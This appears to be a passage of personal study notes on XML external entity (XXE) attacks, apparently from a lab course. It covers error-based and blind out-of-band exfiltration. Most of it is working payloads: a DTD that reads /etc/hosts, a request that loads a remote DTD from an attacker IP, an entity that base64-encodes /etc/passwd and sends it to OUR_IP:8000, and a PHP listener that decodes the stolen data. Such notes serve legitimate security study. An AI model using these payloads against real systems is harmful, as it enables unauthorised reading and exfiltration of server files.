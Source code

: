 - **at our server payload (error.dtd contents)**

```xml
<!ENTITY % file SYSTEM "file:///etc/hosts">
<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">
```
- **at request**

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [
  <!ENTITY % remote SYSTEM "http://10.10.14.29:8000/error.dtd">
  %remote;
  %error;
]>
<root>
<name>first</name>
<tel>3452343456</tel>
<email>test@test.com</email>
<message>Comment</message>
</root>
```
---

# Blind Data Exfiltration

- if we did not receive any output containing any of our XML input entities or did not get any error?

## Out-of-bound data exfiltration

- similar to previous cdata and error attacks
- instead of having the web application output our `file` entity to a specific XML entity ,we will make the web application send a web request to our web server with the content of the file we are reading
- to do so, 
	- use a parameter entity for the content of the file we are reading while utilizing PHP filter to base64 encode it
	- then create another external parameter entity and reference it to our IP
	- place the `file` parameter value as part of the URL being requested over HTTP as

```xml
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % oob "<!ENTITY content SYSTEM 'http://OUR_IP:8000/?content=%file;'>">
```
- this will reflect with base64 encoded value at our server as `content=base64 encoded value`
- write php script to automatically detects the encoded file content and decodes it, and outputs it to the terminal

```php
<?php
if (isset($_GET['content'])) {
	error_log("\n\n" . base64_decode($_GET['content']));
}
?>
```
- write it in `index.php` and start the PHP server on port 8000
```sh
php -S 0.0.0.0:8000
```
